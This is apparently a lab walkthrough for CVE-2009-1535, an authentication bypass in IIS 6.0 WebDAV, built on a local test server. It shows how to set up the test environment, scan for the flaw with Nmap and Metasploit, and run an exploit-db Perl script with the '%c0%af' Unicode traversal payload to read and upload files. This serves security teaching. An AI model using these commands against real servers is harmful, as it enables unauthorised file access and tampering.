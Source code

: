 
CVE-2009-1535  |  IIS 6.0 WebDAV Unicode Authentication Bypass

Part 1: https://www.youtube.com/watch?v=DRxaEvuwQbA

Part 2: https://www.youtube.com/watch?v=mz8DlKZyXTk

--------------

CVE-2009-1535 IIS 6.0 WebDAV Unicode Authentication Bypass

https://www.cvedetails.com/cve/CVE-2009-1535/

https://www.rapid7.com/db/modules/auxiliary/scanner/http/dir_webdav_unicode_bypass

--------------

### Part 1 

1. On Server 2003 machine, create the following folder structure:
```
C:\demo1\demo11\secret111.txt
C:\demo2\demo22\secret222.txt
```
2. Enable WebDAV...
```
Default Web Site > New > Virtual Directory > Alias => intranet1
Default Web Site > New > Virtual Directory > Alias => intranet2

Web Site Properties > Home Directory > Read + Write + Directory browsing 
		    > Directory Security > Authentication Method > only Windows Authenticated Users can access this 
```
3. Testing authentication method

Try to access the website/file on victim machine
http://192.168.50.3/intranet1/demo1/demo11/secret111.txt

Try to access the website/file from Kali machine
http://192.168.50.3/intranet2/demo2/demo22/secret222.txt

4. Use the following scripts to check the vulnerability

Option 1: using Nmap

> nmap --script http-iis-webdav-vuln -p 80 192.168.50.3

Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet1 -p 80 192.168.50.3
# nmap --script http-iis-webdav-vuln --script-args=webdavfolder=intranet2 -p 80 192.168.50.3
```
Option 2: using Metasploit module
```
msf> use auxiliary/scanner/http/dir_webdav_unicode_bypass
```
Need to add "intranet1" + "intranet2" manually into the dictionary file
```
# echo intranet1 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
# echo intranet2 >> /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt
```
Why does Directory traversal attack %C0%AF work?

https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work

### Part 2 

5. Exploit

https://www.exploit-db.com/exploits/8806/

```
# perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af
> path
```
Copy XML content to temp.html > open with Web browser

```
perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
> source
```
```
perl webdav_bypass.pl 192.168.50.3 intranet1/%c0%af/demo1/demo11/secret111.txt
> put  =>  /root/pm.txt
```

Try to access that file from local/remote machine (my_file.txt)

http://192.168.50.3/intranet1/demo1/demo11/my_file.txt

